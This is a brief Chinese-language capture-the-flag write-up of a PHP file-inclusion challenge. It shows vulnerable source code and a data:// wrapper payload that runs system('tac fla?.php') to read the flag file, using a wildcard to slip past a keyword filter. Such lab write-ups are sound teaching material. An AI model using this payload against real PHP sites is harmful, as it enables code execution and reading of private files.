 # 知识点

# 思路
源码
```git
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php"); // 后面添加了.php
    }
        
}else{
    highlight_file(__FILE__);
}
```
payload
```git
?c=data://text/plain,<?php system("tac fla?.php");?>
```
data://text/plain, 这样就相当于执行了php语句 .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么 作用<br />![image.png](./images/20231017_2350457850.png)
